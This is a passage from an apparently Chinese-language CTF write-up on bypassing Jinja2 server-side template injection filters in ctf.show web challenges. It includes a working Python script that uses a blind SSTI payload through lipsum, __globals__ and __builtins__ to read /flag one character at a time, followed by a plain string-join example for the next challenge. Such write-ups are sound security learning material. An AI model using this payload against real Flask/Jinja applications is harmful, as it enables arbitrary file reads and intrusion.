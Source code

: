 ### 方法2：盲注绕过

:::info

- `open('/flag').read()`是回显整个文件
- read函数里加上参数：`open('/flag').read(1)`,返回的就是读出所读的文件里的i个字符
  :::

```python
import requests

url="http://3db27dbc-dccc-46d0-bc78-eff3fc21af74.chall.ctf.show:8080/"
flag=""
for i in range(1,100):
    for j in "abcdefghijklmnopqrstuvwxyz0123456789-{}":
        params={
            'name':"{{% set a=(lipsum|attr(request.values.a)).get(request.values.b).open(request.values.c).read({}) %}}{{% if a==request.values.d %}}feng{{% endif %}}".format(i),
            'a':'__globals__',
            'b':'__builtins__',
            'c':'/flag',
            'd':f'{flag+j}'
        }
        r=requests.get(url=url,params=params)
        if "feng" in r.text:
            flag+=j
            print(flag)
            if j=="}":
                exit()
            break


```

## web 369(过滤request)

### 拼接字符串

#### join

- 拼接字符串

```python
var1 = "Hello"
var2 = "World"
 
# join() method is used to combine the strings
print("".join([var1, var2]))

#输出HelloWorld

# join() method is used here to combine
# the string with a separator Space(" ")
var3 = " ".join([var1, var2])
 
print(var3)

#输出Hello World
```
